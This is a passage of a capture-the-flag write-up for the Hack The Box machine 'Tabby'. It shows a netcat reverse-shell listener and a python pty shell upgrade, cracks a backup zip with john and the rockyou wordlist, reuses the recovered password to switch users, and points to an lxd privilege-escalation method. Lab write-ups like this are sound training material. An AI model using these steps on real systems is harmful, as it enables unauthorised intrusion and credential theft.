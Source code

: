 ```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ rlwrap nc -lvnp 4444                                                                                                         1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 49454
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ 
```
## Getting the user flag
We find a zip file which was password protected, transfer the file to our machine with help of netcat and cracked it by using john the ripper.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ zip2john 16162020_backup.zip  > hash

┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ cat hash
16162020_backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c
178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8
e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e
11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::16162020_backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip

┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:01 DONE (2020-11-07 21:21) 0.5154g/s 5341Kp/s 5341Kc/s 5341KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
We cracked the zip file and the password is `admin@it`. Turns out this is the password for the user ash as well.
```shell
tomcat@tabby:/var/www/html/files$ su ash
su ash
Password: admin@it

ash@tabby:/var/www/html/files$ whoami
whoami
ash
ash@tabby:/var/www/html/files$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
ash@tabby:/var/www/html/files$ cd /home/ash
ash@tabby:~$ cat user.txt
cat user.txt
70d7a301277d4285e8ff1ff443b3c77b
```
## Privilege escalation
We see that the user ash is part of the lxd group. On googling lxd priv esc, came across this [article](https://www.hackingarticles.in/lxd-privilege-escalation/).
Now we just have to follow the commands as it is in the article and we are able to get root!
```shell
```